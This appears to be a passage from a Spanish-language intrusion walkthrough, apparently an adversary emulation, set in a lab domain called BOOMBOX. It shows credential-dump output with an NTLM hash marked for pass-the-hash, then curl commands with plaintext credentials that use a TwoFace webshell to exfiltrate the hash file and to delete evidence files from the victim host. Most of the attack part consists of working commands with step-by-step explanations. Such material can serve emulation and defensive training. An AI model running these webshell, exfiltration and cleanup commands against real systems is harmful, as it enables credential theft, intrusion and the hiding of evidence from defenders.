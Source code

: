 ```
         * Username : tous
         * Domain   : BOOMBOX.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : WATERFALLS$
Domain            : BOOMBOX
...
```

**Hallazgo crítico:**
```
User Name : tous
Domain    : BOOMBOX
NTLM      : 9b7ff4cc0878bee9f099a4a7dc7227c3
```

Este hash NTLM es la clave para el próximo paso (pass-the-hash).

**Paso 3: Exfiltración del Archivo con Credenciales**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -o 01.txt \
     --data 'don=c:\windows\temp\01.txt' \
     https://10.1.0.6/EWS/contact.aspx
```

**Desglose:**
- `-o 01.txt`: Guardar respuesta en archivo local `01.txt`
- `--data 'don=c:\windows\temp\01.txt'`: Parámetro de "download" del webshell

**Proceso:**
1. El webshell TwoFace lee `C:\Windows\Temp\01.txt`
2. Envía el contenido como respuesta HTTP
3. `curl` guarda la respuesta en `./01.txt` localmente

**Verificación de la exfiltración:**

En la plataforma de ataque Linux:

```bash
cat 01.txt
```

El operador revisa el archivo y confirma la presencia del hash NTLM de "tous".

**Paso 4: Limpieza de Evidencia**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=del C:\windows\temp\01.txt C:\windows\temp\m64.exe" \
     https://10.1.0.6/ews/contact.aspx
```
